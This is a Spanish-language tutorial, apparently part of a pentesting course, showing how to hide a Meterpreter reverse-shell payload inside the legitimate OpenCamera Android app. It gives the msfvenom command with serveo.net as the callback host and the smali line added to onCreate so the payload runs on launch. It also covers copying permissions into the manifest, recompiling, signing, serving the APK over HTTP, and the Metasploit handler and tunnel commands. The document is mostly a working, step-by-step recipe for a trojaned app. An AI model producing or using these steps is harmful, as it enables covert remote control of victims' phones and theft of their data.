# 🛠️ APK Easy Tool - Herramienta de Modificación de APKs

## 🎯 ¿Qué es APK Easy Tool?

**APK Easy Tool** es una aplicación de Windows diseñada para facilitar la **administración, modificación y recompilación de archivos APK** de Android. Su interfaz gráfica de usuario simplifica tareas comunes como descompilar, recompilar, firmar y alinear APKs, que de otro modo requerirían el uso de herramientas de línea de comandos más complejas.

> 💡 Ventaja Principal:  Permite realizar tareas avanzadas de ingeniería inversa y modificación de APKs sin necesidad de conocer comandos complejos de terminal.

Esta herramienta es especialmente útil para:

* Desarrolladores que desean personalizar aplicaciones

* Analistas de seguridad que realizan ingeniería inversa

* Pentesters que necesitan inyectar payloads en aplicaciones legítimas

* Entusiastas de Android que quieren aprender sobre la estructura interna de las aplicaciones

### ✨ Características Destacadas

| Característica | Descripción |
| --- | --- |
| Interfaz Gráfica | Ejecuta comandos complejos con unos pocos clics |
| Gestión de Frameworks | Maneja diferentes versiones de frameworks de Android |
| Edición de Recursos | Permite modificar archivos de recursos fácilmente |
| Integración de Utilitarios | Incluye herramientas como apktool, zipalign, apksigner |
| Actualizaciones Frecuentes | Soporte para las versiones más recientes de Android |
| Ahorro de Tiempo | Reduce la posibilidad de errores en comandos manuales |

## 🔨 Preparación del Entorno

### 🛠️ Paso 1: Generar APK con Payload

Antes de trabajar con la herramienta, vamos primero a generar nuestro APK con payload `revshell.apk`. Es una APK normal sin firmar:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=serveo.net LPORT=9002 R > revshell.apk
```

> 📝 Nota:  Este payload se conectará a través de Serveo en el puerto 9002. Recuerda tener el túnel SSH activo antes de usar la APK final.

### 💻 Paso 2: Configurar APK Easy Tool en Windows

Ahora usamos **APK Easy Tool** en un ordenador con Windows:

* Descomprimir APK Easy Tool

* Copiar las APKs necesarias a la carpeta de trabajo:

          `revshell.apk` (payload de Meterpreter)

* `HelloWorld.apk` (aplicación de prueba)

* `OpenCamera.apk` (aplicación legítima objetivo)



### ▶️ Paso 3: Abrir APK Easy Tool

Ejecutar el programa:



## 📦 Descompilar las APKs

### 🔓 Paso 1: Descompilar con APK Easy Tool

Cargamos nuestra primera APK (`hello`) y la descompilamos:



Cuando termine, cargamos el resto de APKs y esperamos que termine. **Puede tardar un rato** ya que aunque la aplicación ocupe poco, es porque está muy comprimida.

> ⏱️ Tiempo de Proceso:  La descompilación de aplicaciones complejas como OpenCamera puede tardar varios minutos.

### 🐧 Alternativa: Descompilar con apktool en Kali

Podemos descompilarlas usando apktool en Kali Linux:

```bash
apktool d revshell.apk
apktool d HelloWorld.apk
apktool d OpenCamera.apk
```

### 📂 Resultado de la Descompilación

De cualquiera de las formas obtendremos las APKs descompiladas:



Y dentro de cada una hay un **árbol de carpetas** con la estructura de la APK.

## 💉 Inyectar el Payload en OpenCamera

### 📋 Paso 1: Copiar la Carpeta de Metasploit

Vamos a empezar con `revshell` y entramos en:

```bash
revshell/smali/com/
```

Copiamos la carpeta `metasploit` y la pegamos en:

```bash
OpenCamera/smali/com/
```



> 🎯 Objetivo:  Estamos inyectando el código del payload de Meterpreter dentro de la aplicación legítima OpenCamera.

## ⚙️ Modificar MainActivity para Ejecutar el Payload

### 📚 Conceptos Fundamentales

En la estructura de APK de Android hay dos archivos fundamentales:

| Archivo | Descripción |
| --- | --- |
| MainActivity.smali | Clase Java/Kotlin que actúa como el punto de entrada principal de la aplicación. Es una subclase de `Activity`, que proporciona la ventana en la que la aplicación dibuja su interfaz de usuario. |
| activity_main.xml | Archivo de diseño que define la interfaz de usuario para MainActivity. Utiliza formato XML para describir los componentes UI (botones, textos, imágenes, etc.) y su disposición en pantalla. |

### ✏️ Paso 1: Localizar MainActivity.smali

Vamos a editar el `MainActivity.smali` para forzar que se cargue el payload al abrir la APK.

En la búsqueda de Windows escribimos `MainActivity` en la carpeta de OpenCamera:



Pulsamos en la **vista detalle** para ver la ruta de los archivos encontrados:



> ⚠️ Importante:  Pulsamos botón derecho sobre el que se encuentra en la ruta de  OpenCamera , NO el que está en la ruta de `metasploit`.

Lo editamos con el Bloc de Notas.

### 🔍 Paso 2: Buscar el Método onCreate

Dentro del archivo, damos a **Buscar** (Ctrl+F) la cadena `onCreate`:



### ✍️ Paso 3: Añadir la Llamada al Payload

Y añadimos **debajo del método onCreate** la siguiente línea:

```bash
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```

Quedaría de la siguiente forma:



| Componente | Explicación |
| --- | --- |
| `invoke-static` | Invoca un método estático |
| `{p0}` | Parámetro: el contexto actual (this) |
| `Lcom/metasploit/stage/Payload;` | Ruta de la clase del payload |
| `start(Landroid/content/Context;)V` | Método que inicia el payload con el contexto |

Guardamos el documento (Ctrl+S).

> 🎯 Resultado:  Ahora, cuando OpenCamera se abra, ejecutará automáticamente el payload de Meterpreter en segundo plano.

## 🔐 Añadir Permisos al Manifest

### 📜 Paso 1: Comparar AndroidManifest.xml

El siguiente paso es añadir en el `AndroidManifest.xml` de OpenCamera los **permisos de acceso a recursos** que necesita Meterpreter.

Abrimos ambos archivos:

#### 📄 Manifest de revshell.apk

Observa cómo toda la parte inicial del Manifest son los **permisos de acceso a recursos**:



#### 📄 Manifest de OpenCamera



### 📋 Paso 2: Copiar los Permisos

Vamos a copiar los permisos del `revshell` a `OpenCamera`:



### 📌 Paso 3: Pegar los Permisos en OpenCamera

Los pegamos al inicio del Manifest de OpenCamera, después de la declaración XML pero antes del tag ``:



### 🗑️ Paso 4: Eliminar Permisos Duplicados

> ⚠️ IMPORTANTE:  Va a haber permisos que se repitan. Tenemos que eliminar los duplicados. En caso de dejar algún permiso repetido, al compilarlo nos va a dar error.

Buscar y eliminar líneas duplicadas como:

* ``

* ``

* ``

* Y cualquier otro permiso que ya existiera en OpenCamera

Guardamos cambios (Ctrl+S) y cerramos los archivos.

## 🔨 Recompilar la APK Modificada

### 🪟 Opción 1: Recompilar con APK Easy Tool

Volvemos a **APK Easy Tool**:



En el nombre le llamamos `OpenCamera_r` para diferenciarla de la original.

> ✅ Ventaja:  APK Easy Tool  firma automáticamente  la APK recompilada.

### 🐧 Opción 2: Recompilar con apktool en Kali

```bash
apktool b OpenCamera -o OpenCamera_kl.apk
```

> ⚠️ Nota:  La APK generada con apktool NO está firmada y necesitará firmarse manualmente.

### 📂 Resultado de la Recompilación

Finalmente, en la carpeta `2-Recompiled APKs/` aparece nuestra nueva APK:



### ✅ Verificar Firma (APK Easy Tool)

La diferencia es que la de APK Easy Tool ya viene firmada:

```bash
apksigner verify --verbose Software/2-Recompiled\ APKs/OpenCamera_r.apk
```

Debería mostrar que la APK está firmada correctamente.

## ✍️ Firmar APK Manualmente (Si usaste apktool)

Si recompilaste con apktool, necesitas firmar la APK manualmente:

### 🔑 Paso 1: Generar Keystore

```bash
keytool -genkey -v -keystore my.keystore -keyalg RSA -keysize 2048 -validity 10000 -alias app
```

Te pedirá información para crear el certificado:

* Contraseña del keystore

* Nombre y apellidos

* Unidad organizativa

* Organización

* Ciudad, estado, país

| Parámetro | Descripción |
| --- | --- |
| `-keyalg RSA` | Algoritmo de clave: RSA |
| `-keysize 2048` | Tamaño de la clave: 2048 bits |
| `-validity 10000` | Validez: 10000 días (~27 años) |
| `-alias app` | Alias de la clave: app |

### 🔧 Paso 2: Alinear la APK con zipalign

```bash
zipalign -v 4 OpenCamera_kl.apk OpenCamera_kl_aligned.apk
```

> 💡 zipalign:  Optimiza la APK alineando datos a límites de 4 bytes, mejorando el rendimiento en tiempo de ejecución.

### ✍️ Paso 3: Firmar con apksigner

```bash
apksigner sign --ks-key-alias app --ks my.keystore --out OpenCamera_r.apk OpenCamera_kl_aligned.apk
```

Te pedirá la contraseña del keystore.

### ✅ Paso 4: Verificar la Firma

```bash
apksigner verify --verbose OpenCamera_r.apk
```

Debería mostrar:

```bash
Verifies
Verified using v1 scheme (JAR signing): true
Verified using v2 scheme (APK Signature Scheme v2): true
```

## 🧪 Probar la APK Modificada

### 📱 Pasos para Probar

* Establecer túnel Serveo (si usaste serveo.net como LHOST):

```bash
ssh -R 9002:localhost:9002 serveo.net
```

* Configurar Metasploit handler:

```bash
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload android/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 9002
msf6 exploit(multi/handler) > run
```

* Crear servidor web para distribuir la APK:

```bash
python3 -m http.server 8000
```

* Descargar e instalar `OpenCamera_r.apk` en Android

* Abrir la aplicación OpenCamera

* Verificar que se establece la conexión con Meterpreter en segundo plano

> ✅ Éxito:  Si todo fue bien, la aplicación OpenCamera funcionará normalmente mientras en segundo plano establece la conexión reverse shell con tu máquina Kali.

## 📊 Comparación: APK Easy Tool vs apktool

| Característica | APK Easy Tool | apktool (CLI) |
| --- | --- | --- |
| Sistema Operativo | 🪟 Windows | 🐧 Linux, Windows, macOS |
| Interfaz | ✅ Gráfica (GUI) | 💻 Línea de comandos |
| Curva de Aprendizaje | Baja | Media-Alta |
| Firma Automática | ✅ Sí | ❌ No (manual) |
| Velocidad | ⭐⭐⭐ | ⭐⭐⭐⭐ |
| Automatización | ❌ Limitada | ✅ Scripts fáciles |
| Control Avanzado | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| Mejor Para | Usuarios Windows, principiantes | Usuarios avanzados, automatización |

## 🎯 Resumen del Proceso Completo

| Paso | Acción | Resultado |
| --- | --- | --- |
| 1 | Generar payload con msfvenom | revshell.apk |
| 2 | Descompilar revshell.apk y OpenCamera.apk | Código Smali editable |
| 3 | Copiar carpeta com/metasploit/ | Payload inyectado en OpenCamera |
| 4 | Modificar MainActivity.smali (onCreate) | Payload se ejecuta al abrir app |
| 5 | Copiar permisos a AndroidManifest.xml | Payload tiene acceso a recursos |
| 6 | Eliminar permisos duplicados | Manifest válido sin errores |
| 7 | Recompilar con APK Easy Tool | OpenCamera_r.apk firmada |
| 8 | Probar en dispositivo Android | ✅ App funcional con reverse shell |

## 📚 Navegación

      [
        ← Anterior: Ofuscación de APKs
      ]([[02 - MODULOS/Prácticas (PoCs)/Pentesting en Android/06 - Técnicas de Ofuscación y Detección en Android|06 - Técnicas de Ofuscación y Detección en Android]])

      [
        ↑ Volver al Índice
      ]([[02 - MODULOS/05 - Prácticas (PoCs)|Índice de Prácticas]])
